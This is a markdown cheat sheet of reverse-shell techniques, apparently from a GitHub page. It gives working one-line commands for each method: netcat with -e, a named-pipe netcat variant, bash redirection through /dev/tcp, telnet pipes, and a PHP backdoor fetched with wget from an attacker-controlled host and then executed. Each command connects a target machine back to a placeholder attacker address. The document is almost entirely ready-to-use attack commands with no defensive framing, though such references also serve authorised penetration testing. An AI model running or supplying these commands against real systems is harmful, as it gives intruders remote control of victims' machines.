 

# Reverse Shell

## Netcat

Target machine connect back to the attack machine

```
nc [ip addr] [port] -e [shell]
```

Attack machine listener

```
nc -n -vv -l -p [port]
```

## netcat with GAPING_SECURITY_HOLE disabled

Target machine connect back to the attack machine with `GAPING_SECURITY_HOLE` disabled

```
mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```

##  netcat without netcat

It takes the /dev/tcp socket programming feature and uses it to redirect /bin/bash to a remote system.

### Target Machine
```
/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1
```

## netcat without netcat or /dev/tcp

### Target Machine
```
mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe
```

## telnet-to-telnet
This technique uses two telnet sessions connected to remote listeners to pipe input from one telnet session to /bin/bash, and pipe the output to the second telnet session. Commands are entered into one the of the attackers listeners and feedback is received on the other.

```
telnet <attacker_ip> <1st_port> | /bin/bash | telnet <attacker_ip> <2nd_port>
```

## PHP reverse shell via interactive console

The last technique makes use of the php interactive console. The attacker issues one command which moves to the /tmp directory (because it is typically world writable), uses wget to download a malicious php reverse_tcp backdoor (which the attacker hosts on a web server that he controls), and executes the backdoor via the interactive console.

### Target Machine

```
cd /tmp && wget -O bd.php <attacker ip address>/mypayload.php.txt && php -f bd.php
```

